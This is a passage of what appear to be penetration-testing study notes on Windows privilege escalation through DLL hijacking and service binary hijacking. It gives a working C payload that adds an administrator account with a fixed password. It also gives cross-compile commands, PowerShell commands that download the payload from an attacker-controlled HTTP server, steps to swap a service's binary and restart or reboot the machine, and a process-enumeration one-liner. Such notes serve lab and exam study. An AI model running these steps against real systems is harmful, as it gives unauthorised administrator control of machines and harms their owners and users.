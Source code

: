 ```
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
- Cross-compile with mingw32: `x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll`
- Run http server and pull DLL onto target system: `iwr -uri http://192.168.xxx.xx/myDLL.dll -Outfile myDLL.dll`
- Move DLL to folder you control, then restart service with `restart-service servicename`
- Check for new user: `net user`
## Service Binary Hijacking
- Find running processes `Powershell: Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
	- Keep an eye out for services NOT installed in `System32`
- Check permissions for target binary; `Powershell: icacls "C:\xampp\apache\bin\httpd.exe"
	- Look for `BUILTIN\Users:(F)` (Full Access for standard users)
### Permissions for Icacls
- Replace original binary with a new one written in C (`adduser.c`) that will create a new administrator (`dave2:password123!`)
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
- Compile the C code with MingW32: `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`
- Pull new binary (from Kali server) onto target from Powershell: `iwr -uri http://192.168.xxx.xx/adduser.exe -Outfile adduser.exe`
- Move original service binary to home: `move C:\xampp\apache\bin\httpd.exe httpd.exe`
- Move & Rename new binary into it's place: `move .\adduser.exe C:\xampp\apache\bin\httpd.exe`
- Restart the running service: `net stop httpd` then `net start httpd`
- `C:\BackupMonitor\BackupMonitor.exe`
### Service Control Privilege
If user does not have service control privilege: 
- See if service has `Auto` StartMode: `Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'httpd'}
- If user has `SeShutdownPrivilege` (check `whoami /priv`) then reboot: `shutdown /r /t 0`
## Service DLL Hijacking

```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```
Standard DLL search order on current Windows versions
Find running processes: `Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
Start Process monitor and filter for target process (Use ProcMon64.exe?)
- Use `restart-servce servicename` if nothing is listed
- Search for DLLs with;